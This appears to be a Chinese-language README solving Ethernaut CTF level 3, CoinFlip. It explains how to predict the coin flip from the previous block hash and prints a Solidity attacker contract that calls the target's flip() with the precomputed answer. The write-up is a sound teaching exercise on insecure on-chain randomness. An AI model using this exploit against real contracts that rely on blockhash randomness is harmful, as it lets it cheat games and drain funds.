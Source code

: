 # 03_CoinFlip Project

一、挑戰攻破 Ethernaut CTF 第 3 題： CoinFlip

 - 勝利條件：連續猜中硬幣正反面 10 次，使得 ```consecutiveWins``` 的值為 10
 - 知識儲備：Solidity 全域變數、區塊哈希值、Chainlink VRF、Solidity 的介面與強制轉型與調用外部合約函數的技巧


二、解題思路：

1. 先部屬 CoinFlipExtensions 合約，體驗一下 ```block.number``` 、 ```blockhash()``` 的值
2. 構思一個攻擊合約，可以使攻擊合約調用 CoinFlip 合約的函數，因為這會使得兩份合約的 ```block.number``` 、 ```blockhash()``` 的值相同 (同一個區塊內執行)
3. 在攻擊合約內，根據區塊哈希算出來的結果，猜測正反面，並將結果作為參數呼叫 CoinFlip 的 ```flip()```
4. 在 javascript 上，重複呼叫攻擊合約，攻擊 10 次


三、Solidity 技巧補充：關於在合約內部調用外部合約的方法

```solidity
contract CoinFlipAttacker {
    ICoinFlip public target;
    //......

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

1. 撰寫介面，定義你要調用外部合約的函數
2. 將你要調用的合約地址，強制轉型成該介面型別
3. 呼叫該函數